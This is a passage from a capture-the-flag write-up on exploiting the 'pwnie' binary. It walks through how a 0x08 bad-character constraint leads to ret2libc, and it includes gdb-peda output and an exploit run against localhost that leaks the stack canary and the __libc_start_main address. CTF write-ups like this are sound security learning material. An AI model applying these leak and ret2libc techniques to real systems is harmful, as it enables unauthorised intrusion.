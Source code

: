 We can immediately see that it worked out the way we wanted, we overwrote the
canary correctly and the eip points to 0xdeadbeef.

Looks like we're ready to pop a shell... But wait there was some kind of hint in
the description:

> 0x08 is a bad char. Your exploit shouldn't contain 0x08 in it to accept.

This is kind of deal breaker, as 0x08 is the beginning of every code address in
x86 on the 32-bit architecture, this leaves us a ret2libc as the only option.
Thereby we have to identify the libc used on the target system, as well as one
symbol we can leak in order to get the libc base address.

Instead of using the GOT/PLT to leak some symbols and find the libc we have to
find another way. There we're different approaches used, but I try to explain
the intended way here.
First of all we need some kind of info about the libc base address, in order to
do that we can have a look at the stack and see if smth. interesting is laying
around there.
Obviously the return instruction pointer of the main function points back
into the libc, precisely into `__libc_start_main`. In order to find out which
offset from the entry point of `__libc_start_main` is stored into the rip, I use
gdb here (later I noticed this is actually the return instruction of `__libc_start_main`,
which is already displayed by the libc-database).

	$ gdb ./pwnie
	gdb-peda$ break *0x080486fe (ret instruction from main)
	Breakpoint 1 at 0x80486fe
	gdb-peda$ run
	Starting program: /home/mightymo/CTF/2016/hackcon.in/pwnie/pwnie 
	So I heard ya like livin like Fibonacci.
	Lets See.
	
	Tell me which one you know and I might give you a gets?
	1
	1
	Yea you cool.
	foo
	...
	ESP: 0xffffd48c --> 0xf7e21a63 (<__libc_start_main+243>:        mov    DWORD PTR [esp],eax)
	...

We can see that the esp points to `__libc_start_main+243`, so if we leak the
rip of main and subtract 243 we get the address of `__libc_start_main`.
If you have a look at the qira view above you can see the index for the canary
was 13, we have to add 2 dwords for alignment space and 1 dword for the ebp, so
the index for the rip is 17.
We can add this to our exploit:

	$ ./pwn_pwnie.py
	[+] Opening connection to localhost on port 4000: Done
	So I heard ya like livin like Fibonacci.
	Lets See.
	
	Tell me which one you know and I might give you a gets?
	[*] Sending wrong answer: 13 4
	[*] Canary: 0x6568d000
	[*] Sending wrong answer: 17 4
	[*] main rip: 0xf6623a63
	[*] __libc_start_main @ 0xf6623970
	[*] Switching to interactive mode
	